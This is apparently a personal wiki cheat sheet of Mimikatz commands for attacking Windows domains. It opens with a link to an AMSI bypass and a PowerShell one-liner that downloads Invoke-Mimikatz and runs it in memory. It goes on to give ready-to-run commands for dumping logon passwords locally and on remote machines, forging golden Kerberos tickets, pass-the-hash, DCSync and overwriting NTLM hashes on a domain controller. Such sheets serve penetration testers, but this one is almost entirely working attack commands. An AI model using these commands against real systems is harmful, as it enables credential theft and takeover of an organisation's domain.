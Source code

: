 # PowerShell
## Add to PowerShell
- [Patch amsi.dll](https://github.com/okazymyrov/piki/blob/master/PowerShell.md#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

## Invoke-Mimikatz custom commands
```powershell
Invoke-Mimikatz -Command '"log mimi.log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```

## Invoke-Mimikatz custom commands on remote machines
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "sekurlsa::credman"' -ComputerName @("<hostname1>.domain.local", "<hostname2>.domain.local")
```

# Lists all available provider credentials
```console
mimikatz "log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
```

# kerberos
## Make a Golden ticket
```console
kerberos::golden /user:domain\<username> /domain:<domain>.local /sid:<sid> /aes256:<aes256_hmac> /id:<user_id> /groups:<group_id> /startoffset:0 /endin:600 /renewmax:10080 /ticket:<user.domain.kirbi>
```

SID can be found by [wmic](https://github.com/okazymyrov/piki/blob/master/wmic.md#get-sids-of-domains) or 
```console
whoami /all
```

# sekurlsa
## Path-the-hash
```console
privilege::debug
sekurlsa::pth /user:<user> /aes256:<aes256_hmac> /domain:<domain> /run:cmd.exe
```

# lsadump

## dcsync
```console
log <domain>.<user>.log
lsadump::dcsync /domain:<domain>.local /user:<domain>\<user>
```

## changentlm
> **Note**
> While lsadump::setntlm seems to work multiple times for the same user account, this is not the case for lsadump::changentlm ([link](https://github.com/gentilkiwi/mimikatz/issues/201#issuecomment-483788010)).
 
### Password string 
```console
lsadump::changentlm /server:<dc>.<domain>.local /user:<user> /oldntlm:<ntlm> /newpassword:<password>
```
### NTLM
```console
lsadump::changentlm /server:<dc>.<domain>.local /user:<user> /oldntlm:<ntlm> /newntlm:<rc4>
```

## setntlm
```console
lsadump::setntlm /server:<dc>.<domain>.local /user:<user> /ntlm:<ntlm>
```

# token
## elevate
```console
token::elevate [/user:<user>] [/process:<id>]
```

